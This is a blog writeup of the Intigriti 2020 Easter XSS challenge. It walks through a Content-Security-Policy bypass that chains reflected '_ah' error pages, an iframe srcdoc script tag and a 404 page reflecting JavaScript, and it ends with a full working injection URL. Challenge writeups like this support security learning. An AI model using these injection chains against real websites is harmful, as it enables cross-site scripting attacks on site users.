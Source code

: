 ```yaml
---
layout: post
title: "Intigriti 2020 Easter XSS challenge writeup"
---
```


This Easter [intigrity](https://www.intigriti.com/) ran an xss challenge. Out of all correct submissions they drew one winner to get a Burp Suite Pro License. I had a lot of fun solving it and I'd love to share some things I've learned about bypassing CSP with you.


# Step 0. The challenge.

So, the challenge was to find xss on a rather simple page hosted on: [https://challenge.intigriti.io/](https://challenge.intigriti.io/). The rules for the solution were:
* Should work on the latest version of Firefox or Chrome
* Should bypass CSP
* Should execute the following JS: alert(document.domain)
* Should be executed on this page, on this domain

CSP was set in headers to:
```
content-security-policy: default-src 'self'
```
so nothing except of `<script src="./....">` was allowed and there was only one js file used on the page:

{% highlight js  linenos %}
var hash = document.location.hash.substr(1);
if(hash){
  displayReason(hash);
}
document.getElementById("reasons").onchange = function(e){
  if(e.target.value != "")
    displayReason(e.target.value);
}
function reasonLoaded () {
    var reason = document.getElementById("reason");
    reason.innerHTML = unescape(this.responseText);
}
function displayReason(reason){
    window.location.hash = reason;
    var xhr = new XMLHttpRequest();
    xhr.addEventListener("load", reasonLoaded);
    xhr.open("GET",`./reasons/${reason}.txt`);
    xhr.send();
}
{% endhighlight %}

# Step 1. Injecting arbitrary html.

The quick look at the code shows us that we have an execution sink at line 11. But can we control the data that flows into this sink? Well, partially as it is an `unescape`d response from xhr request for which we can determine part of url using `location.hash` source (lines 14 and 17).

The [unescape](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/unescape) funciton basically reverts efects of `escape`, for example:

```javascript
unescape('%23hello%2f') === "#hello/"
```
Therefore, it'd be wonderful if we could find any endpoint that would reflect url-encoded strings to inject anything we want into `reason`'s innerHTML.

A bit of fuzzing with [dirsearch](https://github.com/maurosoria/dirsearch) reveals that paths that start with `challenge.intigriti.io/_ah` behave differently than other paths for non-existing resources, they reflect url-encoded strings. Bingo!

For example: https://challenge.intigriti.io/_ah%3Ch1%3Ehello%3C/h1%3E was giving us:

```html
...
<h2>Your client does not have permission to the requested URL <code>/_ah%3Ch1%3Ehello%3C/h1%3E</code>
...
```

Great!

Moreover, using `../` in `location.hash` we are able to put response generated by `./_ah...` in our `innerHTML` execution sink.

Now we are able to inject any html on our page. Let's say we want to inject `<h1>hello</h1>`. All we need to do is to simply use the following url:
```
https://challenge.intigriti.io/#../_ah%3C/code%3E%3Ch1%3Ehello%3C/h1%3E
```

(note that we are also closing `<code>` tag, that is present in response here)

Unfortunately, due to `default-src 'self'` csp, we cannot just inject `<img src=something onerror=alert(document.domain)>` and call it a day.


### fun fact
Using this `_ah` was not an intended way to solve this challenge. This behaviour was caused by `_ah` being one of the [reserved url's](https://cloud.google.com/appengine/docs/standard/python/config/appref#Python_app_yaml_Reserved_URLs) of app engine which hosted this challenge.

# Step 2. Injecting `<script src=...>`

`innerHTML` let's us do a lot of cool things but it won't enable us to execute code using `<script>` tag so we need to find another way.

After trying lot's of different stuff I've found [srcdoc](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-srcdoc) attribute of iframe useful. We can simply create an iframe with `<script src="https://example.com/our_script.js"></script>` via srcdoc in the following way:

```html
<iframe
  srcdoc="&lt;script src=https://example.com/our_script.js&gt;&lt;/script&gt;"
></iframe>
```

and inject it using the method from step 1.:
```
https://challenge.intigriti.io/#../_ah%3Ciframe%20srcdoc=%22%26lt%3bscript%20src=https://example.com/our_script.js%26gt%3b%26lt%3b%2fscript%26gt%3b%22%3E%3C/iframe%3E
```

But again, csp won't let us to execute anything outside of `challenge.intigriti.io`:

```
Content Security Policy: The page’s settings blocked the loading of a resource at https://example.com/our_script.js (“default-src”).
```

# Step 3. Crafting payload with https://challenge.intigriti.io/ origin.

We are missing one last thing to execute our JS. We need to have a script somewhere under `https://challenge.intigriti.io/`.

What happens when we try to access a random path on https://challenge.intigriti.io/ ?

https://challenge.intigriti.io/foobar responds with:
```html
404 - 'File "foobar" was not found in this folder.'
```

Nice. Can we turn it into a valid JS file? Yes! and
```
https://challenge.intigriti.io/';alert(document.domain)';
```
responds with:
```html
404 - 'File "';alert(document.domain)';" was not found in this folder.'
```

Which is a payload we needed!


# Step 4. Putting all pieces together.

Now we have everything we need to get our reflected XSS. The following url executes `alert(document.domain)` on [https://challenge.intigriti.io/](https://challenge.intigriti.io/) :
```
https://challenge.intigriti.io/#../_ah%3C/code%3E%3Ciframe%20srcdoc=%22%26lt%3bscript%20src=foo/';alert(document.domain);'%26gt%3b%26lt%3b%2fscript%26gt%3b%22%3E%3C/iframe%3E
```
**Voila!**

![xss]({{ "/assets/intigriti_xss.gif" | relative_url }})
